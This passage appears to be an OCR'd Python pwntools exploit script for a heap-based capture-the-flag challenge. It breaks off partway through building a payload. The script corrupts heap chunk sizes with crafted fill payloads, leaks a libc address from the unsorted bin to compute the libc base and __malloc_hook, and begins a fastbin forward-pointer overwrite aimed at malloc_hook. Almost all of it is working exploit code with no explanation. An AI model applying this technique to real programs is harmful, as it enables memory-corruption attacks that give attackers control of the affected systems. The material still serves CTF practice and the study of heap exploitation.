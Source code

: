 ```python=
    io.sendlineafter("Index:",str(index))
    io.readuntil(": \n")
    data = io.readline()
    io.readuntil(": ")
    return data

allocate(0x20)  
allocate(0x20)  
allocate(0x20)  
allocate(0x20)  
allocate(0x80) 
allocate(0x20) 

free(1)
free(2) 

payload1 = b""
payload1 += p64(0)*5
payload1 += p64(0x31)
payload1 += p64(0)*5
payload1 += p64(0x31)
payload1 += b"\xc0"
fill(0, payload1)

#set to fastbin size
payload2 = b""
payload2 += p64(0)*5
payload2 += p64(0x31)
fill(3,payload2)

allocate(32)  
allocate(32)    

#set back to unsorted size
payload2 = b""
payload2 += p64(0)*5
payload2 += p64(0x91)
fill(3,payload2)

free(4) 

leak = u64(dump(2)[:8])
libc_base = leak-0x39bb78
print("Leak:",hex(leak))
print("Libc Base:",hex(libc_base))
libc.address = libc_base
malloc_hook = libc.symbols['__malloc_hook']
print("__malloc_hook:",hex(malloc_hook))
malloc_hook_write = libc.symbols['__malloc_hook'] -0x23

allocate(0x60) 
allocate(0x60)  
allocate(0x60)  
allocate(0x60)    
free(7)
free(8)

#overwrite fd to malloc_hook
payload2 = b""
payload2 += p64(0)*13
payload2 += p64(0x71)
payload2 += p64(0)*13
payload2 += p64(0x71)
```